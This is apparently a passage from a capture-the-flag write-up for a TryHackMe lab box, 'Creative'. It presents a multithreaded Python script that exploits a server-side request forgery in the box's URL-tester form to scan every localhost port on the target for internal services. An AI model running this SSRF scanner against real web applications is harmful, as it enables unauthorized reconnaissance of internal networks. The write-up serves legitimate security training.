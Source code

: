 ![[Pasted image 20240810192951.png]]

same thing 

![[Pasted image 20240810193022.png]]

so lets check what other localhost port we can go to 
- u can use intruder here i used this script right here to do this also u can find this script with this document

```python
import requests  
import urllib.parse  
from concurrent.futures import ThreadPoolExecutor  
  
def send_post_request(url, payload, headers):  
    try:  
        response = requests.post(url, data=payload, headers=headers)  
        content_length = response.headers.get('Content-Length')  
        if content_length != '13':  # Check if content length isn't 13  
            print(f"POST request to {url} with payload {payload} returned status code: {response.status_code}, content length: {content_length}")  
    except requests.exceptions.RequestException as e:  
        print(f"Error sending POST request: {e}")  
  
def main():  
    base_url = "http://beta.creative.thm"  
    headers = {  
        "Host": "beta.creative.thm",  
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",  
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  
        "Accept-Language": "en-US,en;q=0.5",  
        "Accept-Encoding": "gzip, deflate, br",  
        "Content-Type": "application/x-www-form-urlencoded",  
        "Origin": "http://beta.creative.thm",  
        "Connection": "close",  
        "Referer": "http://beta.creative.thm/",  
        "Upgrade-Insecure-Requests": "1"  
    }  
  
    # Using ThreadPoolExecutor to run 20 threads concurrently  
    with ThreadPoolExecutor(max_workers=20) as executor:  
        for port_number in range(1, 65536):  
            url = f"http://localhost:{port_number}"  
            payload = f"url=http%3A%2F%2Flocalhost%3A{port_number}"  
            executor.submit(send_post_request, base_url, payload, headers)  
  
if __name__ == "__main__":  
    main()
```
